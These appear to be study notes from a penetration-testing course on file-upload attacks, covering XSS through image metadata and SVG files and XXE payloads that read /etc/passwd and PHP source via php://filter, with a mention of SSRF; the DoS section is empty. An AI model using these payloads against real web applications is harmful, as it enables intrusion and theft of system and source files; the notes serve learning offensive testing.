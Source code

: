 ## XSS
**HTML
1. JavaScript code: target sees a link from a website they trust, and the website is vulnerable to uploading HTML documents, it may be possible to trick them into visiting the link and carry the attack on their machines
2. Web applications that display an image's metadata after its upload: can use a comment to make a comment in the metadata
```shell-session
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
exiftool HTB.jpg
```
- if we change the image's MIME-Type to text/html, it will be executed even if the web app does no display the metadata

**SVG
Scalable Vector Graphics are XML-based images
```xml (HTB.svg)
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

## XXE
Leak contents of /etc/passwd:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

We can read the source files of the web app as a result to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
- Find more vulnerablities
- Locate the upload directory
- Identify allowed extensions
- Find the file naming scheme

XML data can be used in SVG, PDF, Word Documents, PowerPoint Documents

We can also perform SSRF with XXE to enumerate the internally availbale services or even call private APIs to perform private actions

## DoS

